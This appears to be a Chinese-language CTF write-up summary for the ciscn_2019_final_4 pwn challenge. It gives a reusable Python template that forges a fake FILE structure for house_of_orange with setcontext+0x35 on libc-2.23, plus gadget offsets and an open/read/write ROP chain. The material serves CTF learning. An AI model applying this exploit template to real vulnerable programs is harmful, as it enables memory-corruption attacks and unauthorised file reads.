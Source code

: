 # Summary
相比出题人预期思路(`malloc_hook`写`add rsp,0x38`来`pivot`)来说我感觉我的方法普适性还是更好的而且不需要开始时候输入`name`即使在开启`pie`情况下也可以完成攻击.
于是我试着总结一下(可能目前遇到的类似题目还不是特别多而堆区域连续的0xe0大小空间也不常见目前用着orange的模板还不错).
主要思路是如果无法控制`__free_hook`且在`libc-2.23`情况下可以利用`house_of_orange`+`setcontext+0x35`调用`read`传入`ropchain`来完成攻击，简易模版如下.

# Modules

## house_of_orange & setcontext+0x35
```python
fake = p64(fio)+p64(0x61)+p64(libc.sym['setcontext']+0x35)+p64(libc.symbols['_IO_list_all']-0x10)+p64(0)+p64(1)
fake = fake.ljust(0x68,'\x00')+p64(rdi)+p64(rsi)+p64(0)+p64(rdx)
fake = fake.ljust(0xa0,'\x00')+p64(fio+0x8)+p64(syscall)
fake = fake.ljust(0xc0,'\x00')+p64(1)
fake = fake.ljust(0xd8, '\x00')+p64(fio+0xd8-0x10)+p64(libc.sym['setcontext']+0x35)
```
## ROP
`bases libc-2.23`
```python
rax=0x0000000000033544+base
rdi=0x0000000000021102+base
rsi=0x00000000000202e8+base
rdx=0x0000000000001b92+base
syscall=0x00000000000bc375+base
def do_sys_call(num,a1,a2,a3):
    return flat(rax,num,rdi,a1,rsi,a2,rdx,a3)
rop=do_sys_call(2,filename,0,0)+do_sys_call(0,3,tmp_buffer,0x30)+do_sys_call(1,1,tmp_buffer,0x30);
```


[1]: https://buuoj.cn/challenges#ciscn_2019_final_4
[2]: https://github.com/n132/Watermalon/tree/master/CISCN-2019/finnal/ciscn_2019_final_4
[3]: https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/x86/sys/ptrace.h.html
[4]: https://www.cnblogs.com/axiong/p/6184638.html
[5]: http://blog.leanote.com/post/xp0int/%5BPwn%5D-Pwn7-cpt.shao